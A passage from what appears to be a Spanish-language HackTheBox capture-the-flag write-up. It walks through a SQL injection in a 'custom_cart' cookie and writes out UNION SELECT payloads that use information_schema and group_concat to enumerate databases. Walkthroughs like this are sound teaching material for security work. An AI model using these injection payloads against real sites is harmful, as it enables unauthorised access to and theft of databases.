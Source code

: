 Pero bueno al parecer solo tenemos control de 2 campos el **2 y 3**

![](/assets/images/htb-writeup-shared/web16.png)

Sabiendo eso ahora vamos a listar las bases de datos existentes con `' union select 1,schema_name,3 from information_schema.schemata-- -`  así seria`custom_cart={"miguel' union select 1,schema_name,3 from information_schema.schemata-- -":"2"}; `

![](/assets/images/htb-writeup-shared/web17.png)

Bueno nos devuelve solo un valor así que podemos usar `group_concat` `'union select 1,group_concat(schema_name),3 from information_schema.schemata-- -`

Y hay vemos que hay 2 bases de datos
